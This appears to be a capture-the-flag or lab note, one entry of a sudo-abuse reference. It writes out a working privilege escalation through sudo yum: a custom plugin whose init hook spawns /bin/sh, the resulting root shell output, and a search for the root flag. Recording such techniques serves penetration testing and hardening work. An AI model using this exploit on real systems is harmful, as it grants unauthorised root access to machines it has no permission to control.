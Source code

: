 If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

### **Spawn interactive root shell by loading custom plugin (Privilege Escalation: Abuse Elevation Control Mechanism: Sudo and Sudo Caching (T1548.003))** <a href="#byuvu8nzvwhi" id="byuvu8nzvwhi"></a>

TF=$(mktemp -d)

cat >$TF/x<\<EOF

\[main]

plugins=1

pluginpath=$TF

pluginconfpath=$TF

EOF

cat >$TF/y.conf<\<EOF

\[main]

enabled=1

EOF

cat >$TF/y.py<\<EOF

import os

import yum

from yum.plugins import PluginYumExit, TYPE\_CORE, TYPE\_INTERACTIVE

requires\_api\_version='2.1'

def init\_hook(conduit):

os.execl('/bin/sh','/bin/sh')

EOF

sudo yum -c $TF/x --enableplugin=y

Loaded plugins: y

No plugin match for: y

sh-4.2# whoami

root

sh-4.2# id

uid=0(root) gid=0(root) groups=0(root)

sh-4.2#

* Find root flag.

cd /

find / -name root.\* -type f 2>/dev/null

/root/root.txt
